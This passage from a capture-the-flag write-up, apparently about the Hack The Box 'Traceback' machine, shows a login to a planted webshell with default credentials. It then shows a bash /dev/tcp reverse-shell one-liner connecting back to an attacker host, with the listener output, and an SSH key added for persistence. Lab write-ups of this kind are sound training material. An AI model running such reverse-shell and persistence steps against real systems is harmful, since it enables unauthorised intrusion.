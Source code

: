 ```
===============================================================

```

## Shell as webadmin

Visiting that path provides a login screen:

![image-20200315115957319](https://0xdfimages.gitlab.io/img/image-20200315115957319.png)

I can see in the source that the default login is admin/admin:

```

$UserName = "admin";                                      //Your UserName here.
$auth_pass = "admin";                                  //Your Password.

```

And it works, letting me into the webshell where I can see the various options:

![image-20200315121522863](https://0xdfimages.gitlab.io/img/image-20200315121522863.png)

There’s a lot of capability here, but I just want a shell, so I’ll start `nc` listening on my host, and enter `bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1'` into the Execute box:

```

root@kali# nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.181] 40482
bash: cannot set terminal process group (546): Inappropriate ioctl for device
bash: no job control in this shell
webadmin@traceback:/var/www/html$ id
uid=1000(webadmin) gid=1000(webadmin) groups=1000(webadmin),24(cdrom),30(dip),46(plugdev),111(lpadmin),112(sambashare)

```

This seems to hang the webshell. I quickly added a RSA public key to `/home/webadmin/.ssh/authorized_keys`, and got an SSH connection. In fact, I could have done that through the webshell.

## Priv: webadmin –> sysadmin

### Enumeration

The home directory doesn’t have `user.txt`, but it does have a note:

```

webadmin@traceback:~$ ls -l
total 4
-rw-rw-r-- 1 sysadmin sysadmin 122 Mar 16 03:53 note.txt

```
